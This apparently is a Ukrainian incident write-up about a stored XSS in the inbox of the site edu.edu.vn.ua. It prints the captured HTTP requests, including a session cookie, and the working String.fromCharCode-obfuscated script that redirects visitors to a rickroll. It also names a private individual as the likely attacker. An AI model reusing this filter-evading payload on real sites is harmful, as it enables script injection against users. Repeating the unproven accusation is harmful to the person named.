 ## Нещодавно ми зафіксували атаку на вхідну скриньку edu.edu.vn.ua:

![](Pasted%20image%2020250529001736.png)

Після спроби прочитати вхідні — з’являється сторінка з рікролом на YouTube:

Оригінальний GET-запит:

`GET /messages/inbox HTTP/2
Host: edu.edu.vn.ua
Cookie: PHPSESSID=7a8fpt33ckkt74bf937l57gd36
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://edu.edu.vn.ua/course/userlist
Accept-Encoding: gzip, deflate, br
Priority: u=0, i`

Шкідлива відповідь:

`GET /xvFZjo5PgG0?si=fGw_KJ5YKBlKPyDI HTTP/2
Host: youtu.be
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
...
Referer: https://edu.edu.vn.ua/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i`

Через Burp Suite ми перехопили цей шкідливий GET-запит:

![](Pasted%20image%2020250529002114.png)

Також видно, що сторінка вхідних edu.edu.vn.ua завантажується нормально, поки не намагається завантажити всі отримані повідомлення:

![](Pasted%20image%2020250529002407.png)

Після аналізу HTML було знайдено підозрілий код:

![](Pasted%20image%2020250529002633.png)

`const codes = [ 104,116,116,112,115,58,47,47,121,111,117,116,117,46,98,101,47, 120,118,70,90,106,111,53,80,103,71,48,63,115,105,61,102,71,119, 95,75,74,53,89,75,66,108,75,80,121,68,73 ];
window.location.href = String.fromCharCode(...codes);`

Цей код містився в повідомленні за посиланням: https://edu.edu.vn.ua/messages/view/500113

Після переходу за цим посиланням ми знайшли ймовірного зловмисника:
Захаренков Іван Олексійович

З ChatGPT:

    Ага, ось він — класичний XSS з обходом фільтрів через String.fromCharCode:

    const codes = [
      104,116,116,112,115,58,47,47,121,111,117,116,117,46,98,101,47,
      120,118,70,90,106,111,53,80,103,71,48,63,115,105,61,102,71,119,
      95,75,74,53,89,75,66,108,75,80,121,68,73
    ];
    window.location.href = String.fromCharCode(...codes);

    Це просто "зашифрований" редирект:
    🧠 Декодовано: https://youtu.be/xvFZjo5PgG0?si=fGw_KJ5YKBlKPyDI

Ми декодували payload:

```window.location.href = String.fromCharCode(https://youtu.be/xvFZjo5PgG0?si=fGw_KJ5YKBlKPyDI);```

Це звичайний рікрол.
Висновок:

Якимось чином на сайті з’явився шкідливий код, що обходить XSS-фільтри за допомогою ASCII-кодування, і який виконується під час завантаження вмісту /inbox. Після цього код редиректить користувача на рікрол.